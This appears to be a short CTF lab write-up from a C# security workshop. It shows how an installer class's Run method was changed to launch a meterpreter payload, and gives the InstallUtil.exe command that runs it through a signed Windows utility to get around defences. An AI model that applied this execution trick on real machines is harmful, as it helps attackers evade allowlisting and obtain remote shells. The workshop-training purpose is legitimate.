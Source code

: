 ## Lab 3


### CTF 2: Modify Exercise 2’s source code to obtain a meterpreter shell by abusing InstallUtil.exe
The goal of this is to "live off the land" using a legitimate signed windows utility to load our payload. 

This was accomplished by modifying the run Method, pointing the process to start meterpreter payload used in Lab 2:

```c#
public static void Run()
    {
        //Process.Start("notepad.exe");
        Process.Start("C:\\Users\\User\\Desktop\\defcon27_csharp_workshop-master\\Labs\\lab2\\2.exe");
	Console.ReadKey();
    }
```

And then using the following command:
```
c:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile=/LogToConsole=false /U 2.exe
```

